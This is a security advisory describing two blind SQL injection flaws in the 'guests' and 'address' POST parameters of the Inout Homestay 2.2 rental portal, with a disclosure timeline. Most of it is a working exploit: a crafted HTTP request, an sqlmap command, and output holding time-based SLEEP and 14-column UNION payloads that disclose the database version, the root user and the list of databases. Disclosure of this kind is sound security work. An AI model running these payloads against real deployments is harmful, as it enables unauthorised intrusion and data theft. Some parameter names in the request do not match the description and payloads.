 # Information
```
Vulnerability Name  : Remote Blind SQL Injections in Inout Homestay
Product             : Inout Homestay
version             : 2.2
Date                : 2022-05-22
Vendor Site         : https://www.inoutscripts.com/products/inout-homestay/
Exploit Detail      : https://github.com/bigb0x/CVEs/blob/main/Inout-Homestay-2-2-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Inout Homestay is a rental portal application, it suffers from two blind SQL injection. Both "guests" and "address" POST parameters are vulnerable.
This will allow remote non-authenticated attackers not only to break the SQL syntax, but it is also possible to utilise a UNION SELECT query to reflect sensitive information such as the current database version, database users and collect system info. This could result in full information disclosure.
<br>

## Vulnerable Parameter: guests (POST)

<br>

Vulnerability File: index.php

<br>

### HTTP Post Request
`
POST /index.php?page=search/searchdetailed HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://vulnerable-host.com
Cookie: currencyid=10; currencycode=BYR; language=2; io_lang_code=es
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 270
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: vulnerable-host.com
Connection: Keep-alive
address=0 INJECT_SQL_HERE_ &bathr=&beds=&broom=&indate=01/01/1967&lat=1&location=1&longi=1&numguest=1&option=&outdate=01/01/1967&page=1&pend=NaN&property1=&property2=&property3=&pstart=NaN&type=1&userseachcity=San%20Francisco&userseachstate=NY



`
<br>
### Sqlmap command:
`
python sqlmap.py -r homestay.txt  -p guests --dbms=MySQL --banner --random-agent --current-db --dbs --current-user


`
<br>

### output:
`
Parameter: guests (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: address=3137 Laguna Street&guests=1' AND (SELECT 4341 FROM (SELECT(SLEEP(5)))uczv) AND 'bxOk'='bxOk&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San Francisco&searchstate=NY

    Type: UNION query
    Title: Generic UNION query (NULL) - 14 columns
    Payload: address=3137 Laguna Street&guests=1' UNION ALL SELECT NULL,NULL,CONCAT(0x717a6b7871,0x715266764977597043634c45437479454951476d57557270425449574466726644497a4b76734f77,0x7171767871),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San Francisco&searchstate=NY

[22:00:34] [INFO] testing MySQL
[22:00:34] [INFO] confirming MySQL
[22:00:43] [INFO] the back-end DBMS is MySQL
[22:00:43] [INFO] fetching banner
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.0
banner: '5.7.38-0ubuntu0.18.04.1'
[22:00:43] [INFO] fetching current user
current user: 'root@localhost'
[22:00:43] [INFO] fetching current database
current database: 'inout_homestay'
[22:00:43] [INFO] fetching database names
available databases [50]:


`
<br>
<img src="./resources/homestay-sqlmap1.png">
<br>
<img src="./resources/homestay-sqlmap2.png">
<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-22: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed@gmail.com

```
